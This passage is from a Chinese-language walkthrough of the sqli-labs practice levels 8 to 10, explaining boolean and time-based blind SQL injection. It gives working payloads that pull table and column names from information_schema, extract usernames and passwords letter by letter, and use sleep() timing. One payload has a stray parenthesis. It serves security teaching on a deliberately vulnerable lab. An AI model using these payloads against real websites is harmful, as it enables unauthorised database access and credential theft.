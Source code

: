 3.获取表名列名同样是爆破

`?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+`


`?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+`

ps:在爆破单个字母是时使用二分法可以大大缩减所用的时间，灵活运用大于小于号，快速定位字母的位置

类似于这样`left((select database()),1)<'t'`

4.爆用户名`?id=-1' and left((select username from users limit 0,1),1)='d'`

5.爆密码`?id=-1' and left((select password from users limit 0,1),1)='d' `

*不过值得注意的是爆出来的字母是不区分大小写的，具体还需要登录进行尝试*

***
# less 9(get时间布尔盲注)
## 原理

根据页面回显所用时间判断语句是否正确执行，使用sleep()函数相配合进行延时显示

## 步骤

1.对页面输入id=1回显正常仍旧是you are in....没有任何其他信息

2.加入单引号再次载入回显正常

3.构造payload`?id=1' and sleep(10) --+`

发现页面十秒后回显正常，也就是说后面的语句被执行了，所以存在注入漏洞

4.于是对其数据库名称长度进行猜解仍旧用到length()函数，

`?id=1' and if(length(database))=8,sleep(5),1) --+`

发现当length长度不等于8时都会秒显示，只有等于8时才会休眠5s再次回显，

5.其余猜解过程同第八关一样


***
# less 10(双引号get时间布尔盲注)

## 原理

根据题目信息提示是双引号盲注，我们进到其源码中查看发现id变量被双引号包括了起来如下

`$id = '"'.$id.'"';`

也就是说，我们要更改闭合方式，剩余的步骤应该依旧是猜测

## 步骤省略
